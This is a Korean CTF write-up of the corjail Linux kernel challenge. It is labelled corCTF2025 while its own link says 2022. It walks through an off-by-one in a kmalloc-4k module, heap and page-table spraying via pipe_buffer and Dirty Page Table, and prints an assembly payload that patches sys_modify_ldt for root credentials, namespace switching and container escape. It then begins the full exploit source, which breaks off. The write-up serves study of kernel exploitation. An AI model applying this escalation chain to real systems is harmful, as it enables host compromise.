

# corCTF2025 corjail

| ENG Version is here: <https://uniguri.com/posts/kernel/write-ups/ctf/corctf2022-corjail/>

## 문제 설명

### 환경

- linux version: [`5.10.127`](https://elixir.bootlin.com/linux/v5.10.127/source)
  - CONFIG_SLUB_DEBUG=y
  - CONFIG_SLUB=y
  - CONFIG_SLAB_FREELIST_RANDOM=y
  - CONFIG_SLAB_FREELIST_HARDENED=y

### 간단한 목표

이 문제의 목표는 kmalloc-4k 캐시에서 off-by-one을 이용하여 `seccomp`가 적용되어 있는 docker를 탈출하는 것이다.
`seccomp`가 [`struct msg_msg`](https://elixir.bootlin.com/linux/v5.10.127/source/include/linux/msg.h#L9) 랑 [`struct msg_msgseg`](https://elixir.bootlin.com/linux/v5.10.127/source/ipc/msgutil.c#L37)을 사용하는 것을 금지하기에 (정확히는 msgsnd를 금지하지만.. 뭐 결과는 같으니까..) 다른 오브젝트를 찾을 필요가 있었다..

적절한 오브젝트를 잘 찾고 RIP 컨트롤를 잘 해서 ROP나 기타 등등의 방법으로 LPE를 하고 도커를 탈출하면 된다.

### 커널 모듈

문제에서는 `cormon.ko`라는 1개의 커널 모듈을 제공해주는데, 이 모듈은 시스템 콜 통계를 출력해주고 어떤 시스템 콜에 대한 통계를 보여줄 지 설정하는 기능을 제공한다. 시스템 콜에 대한 통계는 <https://lwn.net/Articles/896474/>을 기반으로 하는 패치 파일로 구현되어 있다 (`build/build_kernel.sh`에 패치 적용하는 코드 있음).

대략 4가지 정도의 함수가 존재하지만 그 중 중요한 함수는 다음 1개이다:

```c
int64_t cormon_proc_write(struct file *file, const char *src, size_t size,
                          loff_t *ppos) {
  size_t v5;       // rbp
  const char *v7;  // rbx

  if (*ppos < 0) return -22LL;
  if (size == 0 || (unsigned __int64)*ppos > 0xFFF) return 0LL;
  if (size > 0x1000)
    v5 = 4095LL;
  else
    v5 = size;
  v7 = (const char *)kmem_cache_alloc_trace(
      kmalloc_caches[12], 2592LL,
      4096LL);  // SLAB_CACHE = kmalloc-4096 (0x800 < size <= 0x1000)
  printk(&unk_578, v7);
  if (v7) {
    _check_object_size(v7, v5, 0LL);
    if (copy_from_user(v7, src, v5)) {
      printk(&unk_5D0, src);
      return -14LL;
    } else {
      v7[v5] = 0;  // off-by-one when size=0x1000 -> v5=0x1000
      if ((unsigned int)update_filter(v7)) {
        kfree(v7);
        return -22LL;
      } else {
        kfree(v7);
        return size;
      }
    }
  } else {
    printk(&unk_5A0, 0LL);
    return -12LL;
  }
}
```

### 취약점점

위의 수도 코드에도 써놨지만 취약점은 굉장히 간단하다.
`size=0x1000`인 경우 `v7[v5] = 0;`에서 발생하는 off-by-one이다.
취약점 자체는 쉽고 익스가 어려운 문제들이 좀 자주 보이는 것 같은데.. 조금 슬프다..
어쩃든 이제 kmalloc-4k 캐시에서 off-by-one으로 익스를 할 수 있는 방법을 찾으면 될 듯 하다.

## 익스플로잇

일반적으로 커널 익스를 할 때 사용하는 구조체인 `struct msg_msg`가 금지되어 있기 때문에.. 다른 오브젝트를 찾을 필요가 있었다.
결과적으로 3가지의 시도를 했고 그 중 마지막 방법으로 문제를 풀었다. 결과부터 말하면 첫 번째 방법은 조금 복잡했고 두 번째는 둘가능 했으며 마지막 방법으로 풀었다.

### 첫 번째 시도 ([`struct poll_list`](https://elixir.bootlin.com/linux/v5.10.127/source/fs/select.c#L839)를 이용하기)

#### 사용한 구조체 찾기

첫 번째 시도는 구조체의 첫 멤버가 `struct ??? *next`이거나 `atomic_t ???_count`, `atomic_long_t ???_count`와 같은 레퍼런스 카운트인 구조체를 찾아 사용하는 것이었다.
만약 구조체의 첫 멤버가 `next` 포인터라면 off-by-one으로 UAF를 할 수 있고, 레퍼런스 카운트여도 마찬가지이므로 kmalloc-4k의 off-by-one을 다른 generic slab cache의 UAF로 옮길 수 있다.

적절한 구조체를 찾기 위해 [CodeQL](https://codeql.github.com/)를 사용해서 다음과 같은 쿼리를 작성했다:

```sql
import cpp
from Field f, Type ty, PointerType p, FunctionCall call
where
    (
        call.getTarget().getName() = "kmalloc" or
        call.getTarget().getName() = "kzalloc" 
    ) and
    call.getActualType() = p and
    p.refersTo(ty) and
    f.getByteOffset() = 0 and
    f.getDeclaringType() = ty and
    (
        f.getType().getName() = "list_head" or 
        f.getName().matches("%count%") or
        f.getType().refersToDirectly(ty)
    ) and
    (
        (
            call.getArgument(0).getValue().toInt() > 2048 and
            call.getArgument(0).getValue().toInt() <= 4096
        ) or
        not call.getArgument(0).isConstant()
    )
select ty.getName(), 
    ty.getLocation().toString(), 
    call.getLocation().toString()
```

결과는 다음과 같다:

```plaintext
|          col0           |                          col1                           |                        col2                         |
+-------------------------+---------------------------------------------------------+-----------------------------------------------------+
| workqueue_struct        | kernel/workqueue.c:239:8:239:23                         | kernel/workqueue.c:4288:7:4288:13                   |
| posix_acl               | include/linux/posix_acl.h:27:8:27:16                    | fs/posix_acl.c:181:26:181:32                        |
| msg_msg                 | include/linux/msg.h:9:8:9:14                            | ipc/msgutil.c:53:8:53:14                            |
| sem_undo                | ipc/sem.c:146:8:146:15                                  | ipc/sem.c:1940:8:1940:14                            |
| list_head               | include/linux/types.h:178:8:178:16                      | fs/dcookies.c:236:22:236:28                         |
| list_head               | tools/include/linux/types.h:69:8:69:16                  | fs/dcookies.c:236:22:236:28                         |
| perf_buffer             | kernel/events/internal.h:13:8:13:18                     | kernel/events/ring_buffer.c:815:7:815:13            |
| vmbus_channel_msginfo   | include/linux/hyperv.h:707:8:707:28                     | drivers/hv/channel.c:271:16:271:22                  |
| vmbus_channel_msginfo   | include/linux/hyperv.h:707:8:707:28                     | drivers/hv/channel.c:308:14:308:20                  |
| vmbus_channel_msginfo   | include/linux/hyperv.h:707:8:707:28                     | drivers/hv/channel.c:352:15:352:21                  |
| vmbus_channel_msginfo   | include/linux/hyperv.h:707:8:707:28                     | drivers/hv/vmbus_drv.c:2473:12:2473:18              |
| blk_plug_cb             | include/linux/blkdev.h:1262:8:1262:18                   | block/blk-core.c:1743:7:1743:13                     |
| audit_tree              | kernel/audit_tree.c:13:8:13:17                          | kernel/audit_tree.c:97:9:97:15                      |
| apertures_struct        | include/linux/fb.h:495:9:495:24                         | include/linux/fb.h:509:6:509:12                     |
| Scsi_Host               | include/scsi/scsi_host.h:524:8:524:16                   | drivers/scsi/hosts.c:386:10:386:16                  |
| neighbour               | include/net/neighbour.h:134:8:134:16                    | net/core/neighbour.c:453:13:453:19                  |
| neighbour               | include/net/neighbour.h:134:8:134:16                    | net/core/neighbour.c:406:6:406:12                   |
| netdev_hw_addr          | include/linux/netdevice.h:209:8:209:21                  | net/core/dev_addr_lists.c:30:7:30:13                |
| cpu_rmap                | include/linux/cpu_rmap.h:24:8:24:15                     | lib/cpu_rmap.c:39:9:39:15                           |
| poll_list               | fs/select.c:839:8:839:16                                | fs/select.c:1005:23:1005:29                         |
| hpets                   | drivers/char/hpet.c:104:8:104:12                        | drivers/char/hpet.c:858:10:858:16                   |
| resource_entry          | include/linux/resource_ext.h:23:8:23:21                 | kernel/resource.c:1701:10:1701:16                   |
| journal_replay          | drivers/md/bcache/journal.h:83:8:83:21                  | drivers/md/bcache/journal.c:150:8:150:14            |
| md_rdev                 | drivers/md/md.h:48:8:48:14                              | drivers/md/raid0.c:149:18:149:24                    |
| hv_dr_state             | drivers/pci/controller/pci-hyperv.c:517:8:517:18        | drivers/pci/controller/pci-hyperv.c:2266:7:2266:13  |
| hv_dr_state             | drivers/pci/controller/pci-hyperv.c:517:8:517:18        | drivers/pci/controller/pci-hyperv.c:2231:7:2231:13  |
| iscsi_bus_flash_conn    | include/scsi/scsi_transport_iscsi.h:318:8:318:27        | drivers/scsi/scsi_transport_iscsi.c:1286:15:1286:21 |
| iscsi_bus_flash_session | include/scsi/scsi_transport_iscsi.h:363:8:363:30        | drivers/scsi/scsi_transport_iscsi.c:1237:15:1237:21 |
| iscsi_cls_conn          | include/scsi/scsi_transport_iscsi.h:202:8:202:21        | drivers/scsi/scsi_transport_iscsi.c:2401:9:2401:15  |
| iscsi_cls_session       | include/scsi/scsi_transport_iscsi.h:241:8:241:24        | drivers/scsi/scsi_transport_iscsi.c:2040:12:2040:18 |
| tcmu_tmr                | drivers/target/target_core_user.c:192:8:192:15          | drivers/target/target_core_user.c:1270:8:1270:14    |
| ext4_xattr_inode_array  | fs/ext4/xattr.h:119:8:119:29                            | fs/ext4/xattr.c:2822:15:2822:21                     |
| fscache_cache_tag       | include/linux/fscache-cache.h:43:8:43:24                | fs/fscache/cache.c:41:9:41:15                       |
| mr_table                | include/linux/mroute_base.h:241:8:241:15                | net/ipv4/ipmr_base.c:41:8:41:14                     |
| pneigh_entry            | include/net/neighbour.h:171:8:171:19                    | net/core/neighbour.c:1714:23:1714:29                |
| pneigh_entry            | include/net/neighbour.h:171:8:171:19                    | net/core/neighbour.c:737:6:737:12                   |
| fib_rule                | include/net/fib_rules.h:20:8:20:15                      | net/core/fib_rules.c:544:11:544:17                  |
| fib_rule                | include/net/fib_rules.h:20:8:20:15                      | net/core/fib_rules.c:60:6:60:12                     |
| msg_msgseg              | ipc/msgutil.c:37:8:37:17                                | ipc/msgutil.c:68:9:68:15                            |
| audit_chunk             | kernel/audit_tree.c:25:8:25:18                          | kernel/audit_tree.c:193:10:193:16                   |
| kprobe_insn_page        | kernel/kprobes.c:90:8:90:23                             | kernel/kprobes.c:172:8:172:14                       |
| kmalloced_param         | kernel/params.c:39:8:39:22                              | kernel/params.c:50:6:50:12                          |
| nested_table            | lib/rhashtable.c:32:7:32:18                             | lib/rhashtable.c:133:9:133:15                       |
| nf_queue_entry          | include/net/netfilter/nf_queue.h:12:8:12:21             | net/netfilter/nf_queue.c:204:10:204:16              |
| tls_rec                 | include/net/tls.h:99:8:99:14                            | net/tls/tls_sw.c:337:8:337:14                       |
| nh_group                | include/net/nexthop.h:75:8:75:15                        | net/ipv4/nexthop.c:138:8:138:14                     |
| ctnl_timeout            | include/net/netfilter/nf_conntrack_timeout.h:20:8:20:19 | net/netfilter/nfnetlink_cttimeout.c:133:12:133:18   |
| recent_entry            | net/netfilter/xt_recent.c:66:8:66:19                    | net/netfilter/xt_recent.c:191:6:191:12              |
| counted_str             | security/apparmor/include/lib.h:93:8:93:18              | security/apparmor/lib.c:139:8:139:14                |
| aa_label                | security/apparmor/include/label.h:125:8:125:15          | security/apparmor/domain.c:1404:9:1406:38           |
| aa_label                | security/apparmor/include/label.h:125:8:125:15          | security/apparmor/domain.c:813:9:816:23             |
| aa_label                | security/apparmor/include/label.h:125:8:125:15          | security/apparmor/domain.c:825:9:829:23             |
| aa_label                | security/apparmor/include/label.h:125:8:125:15          | security/apparmor/label.c:428:8:428:14              |
| aa_label                | security/apparmor/include/label.h:125:8:125:15          | security/apparmor/domain.c:1117:8:1119:37           |
| aa_label                | security/apparmor/include/label.h:125:8:125:15          | security/apparmor/domain.c:895:9:897:25             |
| aa_label                | security/apparmor/include/label.h:125:8:125:15          | security/apparmor/mount.c:707:11:709:27             |
| aa_buffer               | security/apparmor/lsm.c:47:7:47:15                      | security/apparmor/lsm.c:1691:12:1691:18             |
| aa_buffer               | security/apparmor/lsm.c:47:7:47:15                      | security/apparmor/lsm.c:1611:11:1611:17             |
| ima_rule_opt_list       | security/integrity/ima/ima_policy.c:63:8:63:24          | security/integrity/ima/ima_policy.c:288:13:288:19   |
```

결과들을 살펴보다가 [`struct poll_list`](https://elixir.bootlin.com/linux/v5.10.127/source/fs/select.c#L839)가 좋을 것 같다고 생각했다.
의냐하면 `struct poll_list *next`가 첫 번째 멤버이고, 가변 길이로 할당되며, [`poll` system call](https://elixir.bootlin.com/linux/v5.10.127/source/fs/select.c#L1067)를 통해 마음껏 구조체를 할당할 수 있기 때문이다.

#### `struct poll_list`를 자유롭게 할당 및 해제 하기

`struct poll_list`를 사용하기로 했으므로 이 구조체에 대한 할당과 해제를 자유롭게 할 필요가 있었다.
근데 `poll`은 일반적으로 호출되면 유저 프로그램을 블록시키므로, 다른 쓰레드나 프로세스에서 `poll`을 호출해야 했다.

그래서 `pthread_create`를 이용해봤으나 쓰레드가 생기지 않아서 `clone`을 사용했다.

```c
int create_poll(void *timeout_ms) {
  pin_to_core(0);
  const int timeout = (int)(int64_t)timeout_ms;
  const int size = (256 - 16) / 8 + (0x1000 - 16) / 8;
  struct pollfd *fds = malloc(size * sizeof(struct pollfd));
  for (int i = 0; i < size; i++) {
    fds[i].fd = 0xdead0000 + i;
    fds[i].events = POLLIN;
  }
  poll(fds, size, timeout);
  free(fds);
}

#define CLONE_STACK_HEAP_ALLOC_COUNT 1024 * 1024
int create_poll_via_clone(int timeout_ms) {
  char child_stack[CLONE_STACK_HEAP_ALLOC_COUNT];
  int pid = clone(create_poll, child_stack, CLONE_VM | SIGCHLD,
                  (void *)(int64_t)timeout_ms);
  return pid;
}
```

#### [SLUBStick](https://www.usenix.org/conference/usenixsecurity24/presentation/maar-slubstick)

`struct poll_list`의 자유로운 할당과 해제가 가능하므로, kmalloc-4k에 이 구조체를 spray해놓고 off-by-one을 트리거하면 `struct poll_list *next`의 하위 1바이트를 변조할 수 있다.
그런데 그냥 `struct poll_list`를 할당한다고 off-by-one이 `next`를 변조할 수 있을 거라는 보장이 없다.

그래서 SLUBStick이라는 기법을 통해 `struct poll_list`들을 한 개, 혹은 여러 개의 slab cache에 몰아 넣고 off-by-one을 트리거하면 안정성을 높일 수 있지 않을까 생각했다.
SLUBStick은 원래 cross-cache를 위한 기법이긴 하지만.. cross-cache도 타겟 오브젝트를 원하는 slab cache에 몰아 넣는 과정이 필요하고 이 논문에서 그 방법을 잘 알려줬다.

그래서 SLUBStick을 이용해서 `struct poll_list`을 하나의 (혹은 연속된) kmalloc-4k에 몰아넣고 off-by-one을 트리거하면 높은 확률로 `next`를 변조할 수 있을 것 같았다.

#### 포기 후 다른 방법 찾기

여기까지 하고 다시 계획을 생각해봤다:

1. `struct poll_list`를 spray하고 `next`가 kmalloc-8, kmalloc-16, kmalloc-32, kmalloc-64, kmalloc-128, 또는 kmalloc-192 (앞으로 타겟 캐시라고 부를거임)에 할당되게 한다
2. off-by-one을 트리거해서 타겟 캐시에 UAF를 만든다
3. 타겟 캐시의 UAF를 이용해서 커널의 base 주소를 구한다
4. cross-cache를 사용해서 타켓 캐시의 UAF를 kmalloc-1k의 UAF로 옮긴다 ([`struct tty_struct`](https://elixir.bootlin.com/linux/v5.10.127/source/include/linux/tty.h#L285)를 사용하고 싶은데, 얘가 kmalloc-1k에 할당된다)
5. `struct tty_struct`랑 [`struct user_key_payload`](https://elixir.bootlin.com/linux/v5.10.127/source/include/keys/user-type.h#L27), 혹은 다른 객체를 잘 사용해서 ROP를 한다

근데 문제는 cross-cache가 성공률이 많이 낮은 기법이다...
그래서 다른 방법을 찾아보기로 했다.

여담. [저자가 작성한 풀이](https://syst3mfailure.io/corjail/)에서는 cross-cache 없이 내가 생각한 방법과 비슷한 방식으로 익스했다. [`struct tty_file_private`](https://elixir.bootlin.com/linux/v5.10.127/source/include/linux/tty.h#L347)를 이용해서 `struct tty_struct`의 주소를 알아내고 알아낸 주소를 통해 그 객체를 UAF가 가능하게 만들고 ROP를 한다.

### 두 번째 접근 ([PageJack](https://i.blackhat.com/BH-US-24/Presentations/US24-Qian-PageJack-A-Powerful-Exploit-Technique-With-Page-Level-UAF-Thursday.pdf)를 사용하자!)

off-by-one을 익스하는 방법을 찾다가 [PageJack](https://i.blackhat.com/BH-US-24/Presentations/US24-Qian-PageJack-A-Powerful-Exploit-Technique-With-Page-Level-UAF-Thursday.pdf)이라는 발표를 발견했다.
얘는 무려 KASLR도 우회할 필요가 없고 cross-cache도 우회할 필요가 없고 CFI가 있어도 되고, 심지어 취약점도 off-by-one이나 OOB 쓰기만 있으면 됐다.

'이런 좋은 방법이?!' 라고 생각하면서 바로 시도해봤는데... 정상적으로 동작을 안 했다... 왤까??

#### 왜 PageJack이 안 될까??

PageJack은 [`struct pipe_buffer`](https://elixir.bootlin.com/linux/v5.10.127/source/include/linux/pipe_fs_i.h#L26) 구조체의 [`struct page *page`](https://elixir.bootlin.com/linux/v5.10.127/source/include/linux/pipe_fs_i.h#L26)를 이용한다.
off-by-one이나 OOB 쓰기같은 취약점으로 `page`의 최하위 바이트를 변조해서 페이지를 대상으로 UAF를 일으키는 것을 목표로 한다.

페이지 레벨의 UAF가 발생하면, [`struct file`](https://elixir.bootlin.com/linux/v5.10.127/source/include/linux/fs.h#L916)를 막 만들어서 UAF 페이지를 `filp` 캐시로 사용하게 하고, 열어둔 pipe를 통해 `struct file`의 `fmode_t f_mode`를 변조하는 방식이다.

모든게 잘 동작하지만 딱 하나, `struct file`의 `const struct file_operations *f_op`가 문제였다...
일반적으로 파일에 쓰기를 하면 다음과 같은 과정을 거친다:



호스트 환경과는 달리, 도커 내부에서는 `f_op`가 [`ovl_file_operations`](https://elixir.bootlin.com/linux/v5.10.127/source/fs/overlayfs/file.c#L764)를 가르킨다.
그러면 `file->f_op->write` 또는 `file->f_op->write_iter`를 호출할 때 [`ovl_write_iter`](https://elixir.bootlin.com/linux/v5.10.127/source/fs/overlayfs/file.c#L350)가 호출되고 이 함수에서 `f_mode`를 다시 계산한다.
따라서 `struct file`의 `f_mode`를 잘 변조했더라도 실제로 파일을 쓸 때는 다시 원래의 `f_mode`로 돌아가게 된다...


여담. 이번 코드게이트 2025의 예선에 나온 [pew](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/Codegate/2025/Quals/pwn/pew)가 [PageJack의 PoC](https://github.com/Lotuhu/Page-UAF/blob/master/CVE-2021-22555/exp.c)로 쉽게 풀린다. (진짜 그냥 PoC 복붙하고 조금만 수정하면 풀린다.)

### 마지막 접근 ([`struct pipe_buffer`](https://elixir.bootlin.com/linux/v5.10.127/source/include/linux/pipe_fs_i.h#L26)와 [Dirty Page Table](https://yanglingxi1993.github.io/dirty_pagetable/dirty_pagetable.html)를 이용하자!)

PageJack를 이용할 수 없게 됐으나 얘를 통해 페이지 레벨의 UAF를 만들 수 있다.
그러면 그 페이지를 PTE 페이지로 사용하게 해서 [Dirty Page Table](https://yanglingxi1993.github.io/dirty_pagetable/dirty_pagetable.html)를 쓸 수 있지 않을까? 라고 생각했다.

#### UAF 페이지를 [PTE](https://en.wikipedia.org/wiki/Page_table#Page_table_entry) 페이지로 할당 받자

`mmap`과 해당 주소에 접근을 통한 page fault를 일으켜서 [PTE](https://en.wikipedia.org/wiki/Page_table#Page_table_entry)를 spray할 수 있다.
그래서 다음과 같은 코드로 시도해봤는데 PTE가 UAF 페이지에 생기지 않았다.

```c
for (int i = 0; i < MMAP_SPRAY_COUNT; ++i) {
  mmap_addrs[i] = mmap((void *)(MMAP_SPRAT_START_ADDR + i * MMAP_SPRAT_STEP),
                        MMAP_SPRAT_SIZE, PROT_READ | PROT_WRITE,
                        MAP_ANONYMOUS | MAP_SHARED, -1, 0);
  if (mmap_addrs[i] == MAP_FAILED) {
    fatal("mmap");
  }
}
sched_yield();
close_pipe_at(victim_pipe_fds[1]); // Make UAF page
for (int i = 0; i < MMAP_SPRAY_COUNT; ++i) {
  for (int j = 0; j < MMAP_SPRAT_SIZE / MMAP_PAGE_SIZE; ++j) {
    uint64_t *addr = (uint64_t *)(mmap_addrs[i] + MMAP_PAGE_SIZE * j);
    const uint64_t val = ((uint64_t)i << 32) + j * 0x01010101;
    *addr = val;
  }
}
```

지금도 왜 안되는지는 모르겠는데, 아래와 같은 코드는 UAF 페이지에 PTE가 잘 생겼다.

```c
for (int i = 0; i < MMAP_SPRAY_COUNT; ++i) {
  mmap_addrs[i] = mmap((void *)(MMAP_SPRAT_START_ADDR + i * MMAP_SPRAT_STEP),
                        MMAP_SPRAT_SIZE, PROT_READ | PROT_WRITE,
                        MAP_ANONYMOUS | MAP_SHARED, -1, 0);
  if (mmap_addrs[i] == MAP_FAILED) {
    fatal("mmap");
  }
}
sched_yield();
close_pipe_at(victim_pipe_fds[1]);  // Make UAF page
for (int i = 0; i < FILE_SPRAY_COUNT; ++i) {
  file_fds[i] = open("/", O_RDONLY);
  if (file_fds[i] < 0) {
    fatal("open");
  }
}
for (int i = 0; i < FILE_SPRAY_COUNT; ++i) {
  close(file_fds[i]);
}
for (int i = 0; i < MMAP_SPRAY_COUNT; ++i) {
  for (int j = 0; j < MMAP_SPRAT_SIZE / MMAP_PAGE_SIZE; ++j) {
    uint64_t *addr = (uint64_t *)(mmap_addrs[i] + MMAP_PAGE_SIZE * j);
    const uint64_t val = ((uint64_t)i << 32) + j * 0x01010101;
    *addr = val;
  }
}
```

어쨋든 UAF 페이지에 PTE를 할당했으므로 열어뒀던 pipe를 통해 PTE를 변조할 수 있다.

#### 커널의 물리 base 주소를 알아내자

각각의 PTE는 flags와 PFN(Page Frame Number; 얘는 그냥 `<물리 주소> >> 12`와 같다)를 가지고 있다.
그러면 pipe를 통해 PTE의 flags와 PFN를 조작하면 `mmap`으로 할당 받은 주소를 통해 임의의 물리 주소에 읽기 및 쓰기를 할 수 있다.

그러면... 커널의 코드 영역을 잘 패치해서 도커를 탈출할 수 있다. 근데 문제는 커널의 코드 영역을 패치하려면 커널이 어느 물리 주소에 위치하는지 알아야한다. 리눅스 커널은 시작할 때 마다 커널을 다른 물리 주소에 위치시킨다.
그래도 알아낼 수 있는 방법이 있는데, `PA:0x9c000`에 위치하는 dmabuf를 이용하면 된다고 한다 (이유도 모르겠고 저게 뭔지도 모르겠다..).
어쨋든 저 주소를 잘 읽어서 `*( *(uint64_t*)(PA:0x9c000)&(~0xfff) - 0x2004000ULL)`를 계산하면 이게 커널의 물리 base 주소이다.

참고. KASLR이 비활성화되어 있으면 `*( *(uint64_t*)(PA:0x9c000)&(~0xfff) - 0x2001000ULL)`처럼 계산해야 한다.

#### [sys_modify_ldt](https://elixir.bootlin.com/linux/v5.10.127/source/arch/x86/kernel/ldt.c#L659)를 수정하자

이제 커널의 코드 영역을 읽고 쓸 수 있으므로 `modify_ldt`를 변조해서 LPE를 하고 도커를 탈출하기로 했다.
`modify_ldt`는 다음과 같이 수정했다.

```nasm
// Compiled using https://defuse.ca/online-x86-assembler.htm
// We need `endbr64` if CFI is enabled (check out https://en.wikipedia.org/wiki/Control-flow_integrity and https://en.wikipedia.org/wiki/Indirect_branch_tracking)
call get_rip;
get_rip:
  pop r15;
  sub r15, 0x252f0; // &__x64_sys_modify_ldt - kbase == 0x252f0
  sub r15, 5; // call get_rip; takes 5 bytes

  // call commit_creds(&init_cred);
  lea rdi, [r15 + 0x145a960]; // &init_cred - kbase == 0x145a960
  lea rax, [r15 + 0xeba40]; // &commit_creds - kbase == 0xeba40
  call rax;

  // task = find_task_by_vpid(1);
  // call switch_task_namespaces(task, &init_nsproxy);
  mov rdi, 1;
  lea rax, [r15 + 0xe4fc0]; // &find_task_by_vpid - kbase == 0xe4fc0
  call rax; // find_task_by_vpid(1)
  mov rdi, rax; // task
  lea rsi, [r15 + 0x145a720]; // &init_nsproxy - kbase == 0x145a720
  lea rax, [r15 + 0xea4e0]; // &switch_task_namespaces - kbase == 0xea4e0
  call rax; // switch_task_namespaces(task, &init_nsproxy);

  // current = find_task_by_vpid(pid);
  // current->fs = copy_fs_struct(&init_fs);
  lea rdi, [r15 + 0x1589740]; // &init_fs - kbase == 0x1589740
  lea rax, [r15 + 0x2e7350]; // &copy_fs_struct - kbase == 0x2e7350
  call rax; // copy_fs_struct(&init_fs);
  mov rbx, rax; // new_fs
  mov rdi, 0x1111111111111111; // pid: will be fiexed
  lea rax, [r15 + 0xe4fc0]; // &find_task_by_vpid - kbase == 0xe4fc0
  call rax; // current = find_task_by_vpid(pid)
  mov [rax + 0x6e0], rbx; // current->fs = new_fs

  // bypass kpti
  xor rax, rax;
  mov [rsp + 0x00], rax;
  mov [rsp + 0x08], rax;
  mov rax, 0x2222222222222222; // user_ip: will be fixed
  mov [rsp + 0x10], rax;
  mov rax, 0x3333333333333333; // user_cs: will be fixed
  mov [rsp + 0x18], rax;
  mov rax, 0x4444444444444444; // user_rflags: will be fixed
  mov [rsp + 0x20], rax;
  mov rax, 0x5555555555555555; // user_sp: will be fixed
  mov [rsp + 0x28], rax;
  mov rax, 0x6666666666666666; // user_ss: will be fixed
  mov [rsp + 0x30], rax;
  lea rax, [r15 + 0xc00f06]; // bypass_kpti - kbase == 0xc00f06; bypass_kpti is in swapgs_restore_regs_and_return_to_usermode
  jmp rax; // bypass_kpti
```

## 최종 익스 코드

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <linux/keyctl.h>
#include <poll.h>
#include <pthread.h>
#include <sched.h>
#include <stdarg.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/wait.h>
#include <syscall.h>
#include <unistd.h>

#define KERNEL_BASE_START 0xffffffff81000000
#define KERNEL_BASE_END 0xffffffffc0000000
#define KERNEL_BASE_MASK (~0x00000000000fffff)
#define IS_IN_KERNEL_RANGE(addr) \
  ((addr) >= KERNEL_BASE_START && (addr) < KERNEL_BASE_END)

#define _PAGE_PRESENT (1ULL << 0)  // Page is present in memory
#define _PAGE_RW (1ULL << 1)       // Read/Write permission (1: writable)
#define _PAGE_USER (1ULL << 2)     // User/Supervisor mode (1: user-accessible)
#define _PAGE_PWT (1ULL << 3)  // Page Write-Through (1: write-through enabled)
#define _PAGE_PCD (1ULL << 4)  // Page Cache Disable (1: caching disabled)
#define _PAGE_ACCESSED (1ULL << 5)  // Accessed bit (1: page has been accessed)
#define _PAGE_DIRTY (1ULL << 6)     // Dirty bit (1: page has been modified)
#define _PAGE_PSE \
  (1ULL << 7)  // Page Size Extension (1: 2MB/1GB page, 0: 4KB page)
#define _PAGE_GLOBAL \
  (1ULL << 8)  // Global page (1: remains in TLB across context switches)
#define _PAGE_NX (1ULL << 63)  // No-Execute bit (1: execution is prohibited)

#define PTE_FLAGS_MASK \
  0xFFF0000000000FFFULL  // Mask to extract the lower 12-bit flag field
#define PTE_PFN_MASK \
  (~PTE_FLAGS_MASK)  // Mask to extract the PFN (Page Frame Number)

// Macro to extract the PFN from a PTE
#define PTE_TO_PFN(pte) (((pte) & PTE_PFN_MASK) >> PAGE_SHIFT)

#define PAGE_DEFAULT_FLAGS \
  (_PAGE_PRESENT | _PAGE_RW | _PAGE_USER | _PAGE_ACCESSED)

// Cache utils from https://github.com/isec-tugraz/SLUBStick
#ifndef HIDEMINMAX
#define MAX(X, Y) (((X) > (Y)) ? (X) : (Y))
#define MIN(X, Y) (((X) < (Y)) ? (X) : (Y))
#endif

static size_t rdtsc(void);
static inline size_t rdtsc_nofence(void) {
  return rdtsc();
  size_t a, d;
  asm volatile("rdtsc" : "=a"(a), "=d"(d));
  a = (d << 32) | a;
  return a;
}

static inline size_t rdtsc(void) {
  size_t a, d;
  asm volatile("mfence");
  asm volatile("rdtsc" : "=a"(a), "=d"(d));
  a = (d << 32) | a;
  asm volatile("mfence");
  return a;
}

static inline size_t rdtsc_begin(void) {
  size_t a, d;
  asm volatile("mfence");
  asm volatile("rdtsc" : "=a"(a), "=d"(d));
  a = (d << 32) | a;
  asm volatile("lfence");
  return a;
}

static inline size_t rdtsc_end(void) {
  size_t a, d;
  asm volatile("lfence");
  asm volatile("rdtsc" : "=a"(a), "=d"(d));
  a = (d << 32) | a;
  asm volatile("mfence");
  return a;
}

void pin_to_core(size_t core);

static void get_enter_to_continue(const char *msg);
static void fatal(const char *msg);

void pin_to_core(size_t core) {
  cpu_set_t target_cpu;

  CPU_ZERO(&target_cpu);
  CPU_SET(core, &target_cpu);

